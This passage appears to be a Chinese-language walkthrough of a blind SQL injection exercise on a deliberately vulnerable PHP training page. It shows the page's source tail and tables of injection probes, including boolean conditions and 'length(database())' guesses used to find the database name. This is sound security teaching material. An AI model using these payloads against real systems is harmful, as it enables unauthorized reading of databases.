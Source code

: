 ```php
        $html .= '<pre>User ID exists in the database.</pre>';
    }
    else {
        // User wasn't found, so the page wasn't!
        header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );

        // Feedback for end user
        $html .= '<pre>User ID is MISSING from the database.</pre>';
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```



![img](https://upload-images.jianshu.io/upload_images/4866277-24d60d27bb2d9390.png?imageMogr2/auto-orient/strip|imageView2/2/w/580/format/webp)

**1.判断是否存在注入，注入的类型**
不管输入框输入为何内容，页面上只会返回以下2种情形的提示：
满足查询条件则返回"User ID exists in the database."，不满足查询条件则返回"User ID is MISSING from the database."；两者返回的内容随所构造的真假条件而不同，说明存在SQL盲注。



![img](https://upload-images.jianshu.io/upload_images/4866277-9778127673e5d5ce.png?imageMogr2/auto-orient/strip|imageView2/2/w/278/format/webp)

|      | 构造User ID取值的语句 | 输出结果 |
| :--- | :-------------------- | :------- |
| ①    | 1                     | exists   |
| ②    | '                     | MISSING  |
| ③    | 1 and 1=1 #           | exists   |
| ④    | 1 and 1=2 #           | exists   |
| ⑤    | 1' and 1=1 #          | exists   |
| ⑥    | 1' and 1=2 #          | MISSING  |

由语句⑤和⑥构造真假条件返回对应不同的结果，可知存在字符型的SQL盲注漏洞

**2.猜解当前数据库名称**
数据库名称的属性：字符长度、字符组成的元素（字母/数字/下划线/...）&元素的位置（首位/第2位/.../末位）

1）判断数据库名称的长度（二分法思维）

| 输入                           | 输出    |
| ------------------------------ | ------- |
| 1' and length(database())>10 # | MISSING |
| 1' and length(database())>5 #  | MISSING |
| 1' and length(database())>3 #  | exists  |
| 1' and length(database())=4 #  | exists  |
